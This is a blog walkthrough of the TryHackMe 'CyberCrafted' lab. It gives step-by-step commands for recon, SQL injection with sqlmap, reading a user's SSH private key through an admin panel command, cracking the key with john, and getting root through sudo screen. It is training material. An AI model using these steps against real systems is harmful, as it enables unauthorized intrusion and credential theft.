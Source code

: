 ```yaml
---
title: Try Hack Me CyberCrafted
date: 2021-11-24T15:54:45+05:30
lastmod: 2021-11-24T15:54:45+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/CyberCrafted.gif # for tryhackMe
simg: /img/CyberCrafted.png

categories:
  - TryHackMe
tags:
  - tryhackme
 

draft: false
description: TryHackMe Room {CyberCrafted} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

Pwn this pay-to-win Minecraft server!

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|CyberCrafted|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/dd06737472c79a806e2049ddeb3af354.png)|
| <b> CyberCrafted [Free Room] </b>| [CyberCrafted](https://tryhackme.com/room/cybercrafted)|

## Task 01: Deploy the machine

## Task 02: Root it

### Answer the questions below

|Task|Question|Ans|
|:---|---|---|
|1|How many ports are open?|[2.1](#21)|
|2|What service runs on the highest port?|[2.2](#22)|
|3|Any subdomains? (Alphabetical order)|[2.3](#23)|
|4|On what page did you find the vulnerability?|[2.4](#24)|
|5|What is the admin's username? (Case-sensitive)|[2.5](#25)|
|6|What is the web flag?|[2.6](#26)|
|7|Can you get the Minecraft server flag?|[2.7](#27)|
|8|What is the name of the sketchy plugin?|[2.8](#28)|
|9|What is the user's flag?|[2.9](#29)|
|10|Finish the job and give me the root flag!|[2.10](#210)|
---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## Initial recon

### nmap

basic nmap returns `2 open ports`

* Virtual Hosting:

     ```bash
     curl -I 10.10.204.106                                                                          130 ⨯
     HTTP/1.1 302 Found
     Date: Wed, 24 Nov 2021 10:45:02 GMT
     Server: Apache/2.4.29 (Ubuntu)
     Location: http://cybercrafted.thm/
     Content-Type: text/html; charset=UTF-8
     ```

* curl returns a domain name, let's add that to our `/etc/hosts` file.

### SqlMap

* capture the req for `http://store.cybercrafted.thm/search.php` using burp and save it as **search.req**
* run it through `sqlmap -r search.req`
* command: `sqlmap -r search.req --dbs`

### login to admin portal

* we got creds from [sqlmap](#sqlmap)
* you can find the `plain text password` of hash on `crackstation.net`

### ssh-key

* once you save the key
* use `ssh2john` to generate the crackable hash; `locate ssh2john` to find the file on your attacker machine
* `usr/share/john/ssh2john.py creeper.key > cracking.hash` 
* cracking: `john cracking.hash --wordlist=/usr/share/wordlists/rockyou.txt`
  
---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

## Flags

### 2.1

ref to [nmap](#nmap)

### 2.2

ref to [nmap](#nmap)

or

`nmap -sC -sV IP:HigherPort(open)`

### 2.3

* Wordlist : [SecLists](https://github.com/danielmiessler/SecLists)
* commaand:
  `gobuster vhost -u domain.thm -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

### 2.4

* initial enum shows web-service running `php`
* let's run `gobuster`
* command:
  `gobuster dir -u http://store.cybercrafted.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o store.out -x php `

### 2.5

ref to [Sqlmap](#sqlmap)

### 2.6

ref to [Sqlmap](#sqlmap)

### 2.7

* once you login to [admin panel](#login-to-admin-portal)
* you can download the `.ssh` keys for `xXUltimateCreeperXx`
* on `http://admin.cybercrafted.thm/panel.php` run this `cat /home/xxultimatecreeperxx/.ssh/id_rsa`
* save the key
* ref to [ssh-key](#ssh-key)
* login as `xxultimatecreeperxx`
* find `mindcraft` dir
* find command `find / -name 'minecraft' 2>/dev/null`
* you'll see the flag on the directory

#### 2.8

* list the plugins `ls /opt/minecraft/cybercrafted/plugins/`

### 2.9

* goto `sketchy plugin` directory
* you'll see the creds on `log.txt`
* use that to elevate to `cybercrafted`
* read the `user` flag.

### 2.10

* check with `sudo -l`

     ```bash
     cybercrafted@cybercrafted:~$ sudo -l 
     Matching Defaults entries for cybercrafted on cybercrafted:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

     User cybercrafted may run the following commands on cybercrafted:
     (root) /usr/bin/screen -r cybercrafted
     ```

* check `gtfobins` for screen
* run the `sudo command` then type `CTRL+A` & `c` to get the shell.
* read the root flag.

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
